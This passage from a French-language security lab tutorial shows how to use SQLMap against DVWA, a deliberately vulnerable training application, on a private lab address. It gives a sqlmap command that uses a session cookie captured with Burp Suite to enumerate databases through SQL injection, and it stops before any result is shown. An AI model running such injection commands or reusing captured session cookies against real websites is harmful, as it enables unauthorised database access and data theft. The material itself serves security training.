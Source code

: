 ![20-burpsuite-cookie-captured](../images/2020/07/20-burpsuite-cookie-captured.png)

Nous avons maintenant le cookie pour utiliser SQLMap.

### SQLMap

SQLMap est un outil pour automatiser l'injection SQL.  C'est un outil en ligne de commande.

Pour déterminer les bases de données accessibles via l'injection SQL :  

```
sqlmap -u "http://192.168.40.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=d62199405e459ee9b9a66cab06d90cd3" \
  -dbs
```

Résultat :  
